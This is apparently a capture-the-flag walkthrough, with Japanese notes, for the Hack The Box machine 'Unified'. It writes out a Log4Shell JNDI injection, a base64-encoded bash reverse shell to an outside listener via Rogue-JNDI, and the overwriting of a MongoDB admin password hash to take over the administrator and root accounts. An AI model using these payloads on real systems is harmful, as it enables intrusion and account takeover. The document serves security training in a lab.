


# 1.Port Scan 
ip=10.129.210.188

sudo vi /etc/hosts

 nmap -sC -sV $ip
 

# 2. Web site

**URL: https://unified.htb:8443**

## Burp suite

loginを試行

`${jndi:ldap://192.168.11.50:1389/o=tomcat}`

remerberを書き換え

`sudo tcpdump -i tun0 port 389`

burpsuiteからリクエストを送信

# 3.Rouge-jndi

`git clone https://github.com/veracode-research/rogue-jndi.git`

`sudo apt-get install maven` 

echo 'bash -c bash -i >&/dev/tcp/10.10.16.18/4444 0>&1' | base64

出力したハッシュに書き換え

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTgvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.16.18" 

4444ポートを解放

`nc -lvnp 4444`

burpsuiteからリクエストを送信

# 4.Get user.flag

`whoami`

`script /dev/null -c bash`

`id`

`ls /home`

`ls /home/michael`

`cd /home/michael`

`cat user.txt`

## mongo DB

ps aux |grep mongo

mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"

x_shadow: "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4."

`mkpasswd -m sha-512 password1234`     

$6$d2cMSHPZ1xD1IWwn$IsP5ELWJk3AaRTG1Z8UnWiMy7MRSkFiGoaYOg90hG0UwZsfDYVLWggksjXN9U7eEO9ZBdxP0PfOHaTbFbDvrh/

mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$d2cMSHPZ1xD1IWwn$IsP5ELWJk3AaRTG1Z8UnWiMy7MRSkFiGoaYOg90hG0UwZsfDYVLWggksjXN9U7eEO9ZBdxP0PfOHaTbFbDvrh/"}})'

user: 6ced1a6a89e666c0620cdb10262ba127

# 5.Web site 

user:administrator
password:password1234

rootuserとpasswordを確認

`ssh root@$ip`

